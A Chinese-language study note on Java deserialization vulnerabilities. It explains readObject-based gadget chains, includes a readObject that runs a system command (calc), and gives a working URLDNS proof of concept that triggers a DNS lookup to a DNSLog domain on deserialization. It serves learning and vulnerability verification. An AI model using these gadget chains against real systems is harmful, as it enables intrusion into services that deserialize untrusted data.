






01NOTES · Java · 2026.11.23
Java反序列化-基本概念与利用
从序列化 / 反序列化讲起，写一遍 Java 的代码实现，再落到 readObject 的漏洞成因；最后用 URLDNS 这条最简链走一遍完整的复现流程。
主要参考Drunkbaby's Blog进行学习
序列化&反序列化
序列化：对象->字节序列（字符串，二进制文件）
反序列化：字节->对象
序列化和反序列化的设计主要是为了传递，在不同进程间通信，传输对象。
序列化也能够实现数据的持久化，通过序列化可以把数据永久的保存在硬盘上（文件）
常见的序列化和反序列化协议：
- XML&SOAP
- JSON
- Protobuf
Java原生当中也存在序列化与反序列化，用的比较少
Java序列化&反序列化代码实现
Person.java
定义“人”这个对象
package com.study.serialize; //申明这个类属于com.study.serialize这个包（相当于文件夹路径）
import java.io.Serializable; //从Java官方库（java.io包）里引入Serializable这个接口/工具
public class Person implements Serializable {
//java规定类名首字母大写且与文件名一致
//implements Serializable:实现Serializable接口，意味着Person类可序列化(可存为文件/可传输)。
private String name;
private int age;
public Person(){
}//无参数构造方法，允许new Person()直接创建一个空的Person对象
public Person(String name, int age){
this.name = name;
this.age = age;
}//有参数构造方法，把传进来的参数（name、age）赋值给当前对象的对应属性
@Override //注解，表示下面这个方法是重写父类的
public String toString(){
return "Person{" +
"name='" + name + '\'' +
", age=" + age +
'}';
}//toString()在把一个对象当字符串打印出来时调用，表示格式（不然打印出来就是一堆内存地址类似物）
}
SerializationTest.java
序列化文件
package com.study.serialize; //同样申明在com.study.serialize包下，这样就可以找到同包的Person类
//导入三个IO（输入输出）相关类
import java.io.FileOutputStream; //文件输出流，负责往文件里写字节
import java.io.IOException; //输入输出异常类，用来申明“读写文件时可能会出错”
import java.io.ObjectOutputStream;//对象输出流，负责把Java对象转化为字节流
public class SerializationTest {
public static void serialize(Object obj) throws IOException{
//static（静态）表示这个方法可以直接通过“类名.方法名”调用，不需要先new SerializationTest()
//Object:传什么对象进来都可以
//throws IOException声明了这个方法可能会发生IOException，一旦出现往上抛，交给调用它的方法处理
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
//FileOutputStream创建一个指向“ser.bin”文件的输出流（文件不存在自动创建）
//ObjectOutputStream把文件流包起来，变成能写对象的流
oos.writeObject(obj); //调用oos的writeObject方法，把传进来的对象obj序列化成字节，写入“ser.bin”
}
public static void main(String[] args) throws Exception{//throws Exception比IOException更宽泛的异常，遇到就抛出
Person person = new Person("aa",22);
System.out.println(person); //打印Person的信息（底层调用person.toString()）
serialize(person); //调用serialize方法，把person对象存进“ser.bin”
}
}UnserializeTest.java
反序列化文件
package com.study.serialize;
import java.io.FileInputStream; //文件输入流，负责从文件中读字节
import java.io.IOException; //IO异常
import java.io.ObjectInputStream; //对象输入流，负责把字节重新还原成对象
public class UnserializeTest {
public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
//ClassNotFoundException：找不到对应类定义异常
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
Object obj = ois.readObject(); //从流中读取对象数据并还原，存进obj变量（类型：对象）
return obj;
}
public static void main(String[] args) throws Exception{
Person person = (Person)unserialize("ser.bin"); //unserialize返回的是Object类型，在前面加（Person）表示强制类型转换，告诉编辑器这里面装的是Person，最后赋值给变量person
System.out.println(person);
}
}
注：Serializable接口
是Java提供的序列化接口，它是一个空接口，用来标识当前类可以被ObjectOutputStream序列化，以及被ObjectInputStream反序列化。
- 序列化类的属性如果没有实现Serializable，那么在序列化的时候就会报错。
- 如果父类没实现Serializable，子类实现了，反序列化还原子类的时候，需要先调用父类的无参数构造函数，把父类的部分状态初始化出来，再把子类数据填回去。如果父类既没有实现Serializable，又没有提供无参数构造函数，反序列化就会报错。
- 如果父类已经实现Serializable了，那么继承他的子类也是可以被序列化和反序列化的，不需要再写一遍implements Serializable
- 静态成员变量（static）是不可以被序列化的（序列化针对对象属性，静态变量属于类），序列化保存“某个具遗体对象”的数据状态时，不会把static变量写进去，反序列化时，也是直接读取当前JVM里那个类自身的static值，而不是从文件里恢复。
- transient标识的对象成员变量不参与序列化，反序列化时这些字段会被赋上该类型的默认值（如
String是null，int是0，boolean是false） transient是Java的一个关键字，作用是告诉Java的序列化机制：这个字段属于这个对象，但不要把它存进文件/发出去。常使用在密码等敏感信息处（示例：private transient String password）
序列化安全问题的产生
序列化和反序列化当中有两个非常重要的方法：writeObject和readObject
这两个方法可以经过开发者重写以自定义序列化过程，具体的做法就是重写以下两个private方法：
private void writeObject(java.io.ObjectOutputStream s)throws java.io.IOException
private void readObject(java.io.ObjectInputStream s)throws java.io.IOException, ClassNotFoundException在服务端收到字节数据，准备反序列化（比如调用ois.readObject()）后，Java底层在把字节还原成对象的过程中会自动检查这个类有无private void readObject（），如果有，就会执行以恢复数据，而不是调用流工具类上的方法。
虽然是private，但Iava底层反序列化机制可以通过反射去调用它。如果某个类在readObject里写了危险操作（比如命令执行，读文件等），反序列化恶意的字节流时就会触发这段代码。
综上所述，Java反序列化的漏洞与readObject有关。
漏洞形式
入口类的readObject直接调用危险方法 这种情况是最理想的，但一般不会出现。 示例：在Person类里自定义readObject方法，里面包含了让操作系统执行“calc”命令，在Windows中，这会启动系统的计算机程序（calc.exe）,所以在我们运行反序列化文件UnserializeTest.java时就会弹出计算器
javaprivate void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException{ ois.defaultReadObject(); //按Java默认的方式，把Person的各个字段（比如name，age）从输入流ois里读出来并赋值 Runtime.getRuntime().exec("calc"); }入口类参数中包含可控类，该类有危险方法，readObject时调用 示例：
javapublic class Box implements Serializable { private Object item; //在Java里，任何类都是Object的子类，所以这个item可以是一个普通的String，也可以是一个别的复杂类的对象 // 反序列化 Box 时，Java 会自动执行这个 readObject private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException { ois.defaultReadObject(); // 先把 item 这个内部对象读出来 // 开发者在这里主动写了一句：调用 item 的某个方法，就比如item.toString(),如果此时的item的toString（或者它顺带调用的下一个方法里）包含了危险操作，就能把危险代码带出来 item.toString(); } }入口类参数中包含可控类，该类又调用其它有危险方法的类，readObject时调用 比2多跳了一层（利用链变长了），入口类->itemA->itemB->...最终在B或者更后面的类里触发危险操作
构造函数/静态代码块等类加载时隐式执行 在反序列化还原对象、或者动态加载某些类/代理/资源的 nogle 流程中，可能会隐式触发某个类的加载或实例化，从而把里面
static { ... }或构造函数里的代码顺带跑起来。
触发路径
攻击前提：继承Serializable接口
source入口类：重写 readObject 调用常见的函数；参数类型宽泛，比如可以传入一个类作为参数；最好 jdk 自带
gadget chain调用链：找同名方法，参数类型相同，调用传递
sink执行类：链的最后一步，真正执行危险操作的类和方法（RCE，SSRF，写文件等）
实战——URLDNS
URLDNS： URL（网址/对象域名）+ DNS（域名解析请求），是一个极简的反序列化验证链，适用于检测（是序列化学习里最简单的一条“探路链”）：
路线是HashMap.readObject() → HashMap.putVal() → HashMap.hash() → URL.hashCode()。把一个URL对象放进HashMap 的 key 并反序列化时，URL.hashCode() 会触发一次 DNS 解析请求。
- 只用了Java内置的类，不用装第三方仓库。
- 只能发送DNS请求，不能干别的，所以不算是利用，但是非常适合验证“目标有没有真的在反序列化”，如果确认有洞，再更换真正的利用链
ysoserial：是安全圈里一个非常经典的 Java 反序列化 payload（恶意/测试字节流）生成工具，里面有非常多已经写好的利用链的构造代码（URLDNS就是其中最基础的一条）。简单来说，ysoserial就是把URLDNS等链一键生成可发送字节流的工具。
HashMap：是一个极其好用的起点（source）：
- JDK自带+可序列化（几乎所有Java环境都有且实现了Serializable接口）
- key可以塞进不同的对象（
hash(Object key)接收的是宽泛类型） - 反序列化会自动处理内部元素（反序列化一个
HashMap时，它的readObject会把存进去的key和value读出来，并调用hash(key)，进而触发key.hashCode()）
话不多说，开始复现：
ysoserial对URLDNS的利用链（反序列化真正触发漏洞时的路线）
ois.readObject()
→ HashMap.readObject() [反序列化总开关]
→ HashMap.putVal() [内部放元素的工人]
→ HashMap.hash(key) [算 key 的哈希]
→ URL.hashCode() [触发 DNS 查询]手工跟进URLDNS的利用链
我们通过调用hashmap.put(url, 1)把URL放进HashMap里，put 方法之后又是调用了 hash 方法

hash 方法则是调用了 hashcode 这一函数

hashCode 函数的变量名是 key，而key就是hash这一方法传进来的参数（也就是我们通过put传进的URL）
因为我们的key是URL对象，所以我们去URL类里看看URL的hashCode()长什么样（URL.hashCode 不会自己把活干完，而是会一层一层往下调用方法）


URL 中的 hashCode 被 handler 这一对象所调用，handler 又是 URLStreamHandler 的抽象类，于是我们再去找 URLStreamHandler 的 hashCode 方法

找到了——getHostAddress（获取这个域名对应的 IP 地址），跟进getHostAddress

这⾥ InetAddress.getByName(host) 的作⽤是根据主机名，获取其 IP 地址，在⽹络上其实就是⼀次 DNS 查询。
URLDNS 反序列化利用链的 POC
去DNSLog上生成一条测试域名
修改SerializationTest.java
javapackage com.study.serialize; import java.io.FileOutputStream; import java.io.IOException; import java.io.ObjectOutputStream; import java.lang.reflect.Field; import java.net.URL; import java.util.HashMap; public class SerializationTest { public static void serialize(Object obj) throws IOException{ ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin")); oos.writeObject(obj); } public static void main(String[] args) throws Exception{ Person person = new Person("aa",22); HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>(); URL url = new URL("http://测试域名"); //此时是默认值-1 Class c = url.getClass(); Field hashcodefile = c.getDeclaredField("hashCode"); hashcodefile.setAccessible(true); hashcodefile.set(url,1234); // 1. 利用反射临时改掉 -1，防止 put 时提前发 DNS hashmap.put(url,1); hashcodefile.set(url,-1); // 2. 改回 -1，留到反序列化时再触发 serialize(hashmap); // 3. 序列化写入 ser.bin } }如果直接
javaHashMap<URL,Integer> hashmap= new HashMap<URL,Integer>(); hashmap.put(new URL("DNS生成的 URL，用dnslog就可以"),1); serialize(hashmap);在序列化时，由于hashcode的值不等于 -1 的时候，函数就会直接
return hashCode而不执行hashCode = handler.hashCode(this);（不再往下走，也就不会触发DNS查询）。而一开始URL类自己设定hashCode属性默认初始值-1，用来表示“还没算过哈希值”，于是便是发起了请求，所以我们在没有反序列化的情况下面，就会收到了 DNS 请求。运行SerializationTest.java生成ser.bin，此时DNSLog上并没有收到这条域名的DNS请求。
运行UnserializeTest.java，此时DNSLog上收到这条域名的DNS请求。
javapublic static void main(String[] args) throws Exception{ Object obj = unserialize("ser.bin"); System.out.println(obj); }